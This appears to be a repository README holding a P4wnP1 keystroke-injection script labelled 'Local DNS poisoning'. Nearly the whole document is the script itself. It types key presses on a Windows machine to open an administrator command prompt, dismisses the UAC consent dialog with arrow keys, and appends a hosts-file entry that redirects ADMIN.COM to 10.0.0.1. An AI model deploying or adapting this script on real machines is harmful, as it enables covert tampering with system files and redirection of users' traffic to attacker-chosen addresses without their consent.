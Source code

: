 # LOCAL DNS POISONING
This script has been written in javascript adapted to P4wnP1 language in order to be ran in a Windows desktop environment

# Script
```js
layout('es')                    // Spanish keyboard layout
typingSpeed(100,150)    // Wait 100ms between key strokes + an additional random value between 0ms and 150ms (natural)

// Author:ernest and isaac
press("GUI r")
delay(100)
type("cmd.exe")
delay(100)
press("CONTROL SHIFT ENTER")
delay(100)
press("GUI TAB")
delay(100)
press("GUI TAB")
delay(100)
press("RIGHT_ARROW")
delay(100)
press("LEFT_ARROW")
delay(100)
press("ENTER")
delay(100)
type("ECHO. >> C:\WINDOWS\SYSTEM32\DRIVERS\ETC\HOSTS")
delay(100)
press("ENTER")
type("ECHO 10.0.0.1 ADMIN.COM >> C:\WINDOWS\SYSTEM32\DRIVERS\ETC\HOSTS")
delay(100)
press("ENTER")
delay(100)
type("exit")
delay(100)
press("ENTER")
```
